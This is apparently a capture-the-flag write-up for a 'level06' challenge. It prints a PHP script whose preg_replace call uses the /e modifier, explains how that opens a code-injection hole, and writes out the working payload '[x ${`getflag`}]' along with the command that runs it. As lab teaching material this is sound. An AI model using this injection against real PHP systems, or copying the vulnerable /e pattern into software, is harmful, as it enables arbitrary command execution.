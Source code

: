 We start by listing the files in the home directory:

```bash
ls
```

Output:

```
level06  level06.php
```

The presence of `level06.php` suggests that the challenge might involve PHP execution. We inspect its contents:

```bash
cat level06.php
```

Output:

```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

The `x()` function reads the contents of a file and processes `[x some_command]`, replacing it with the result of `y()`. Since `preg_replace()` with the `/e` modifier allows executing code, we can inject our own command.

Since the script reads a file and processes `[x some_command]`, we create a file in `/tmp` with an injected command:

```bash
echo '[x ${`getflag`}]' > /tmp/injected
```

We execute `level06.php` with our malicious file:

```bash
./level06 /tmp/injected
```

And this way we get our next flag.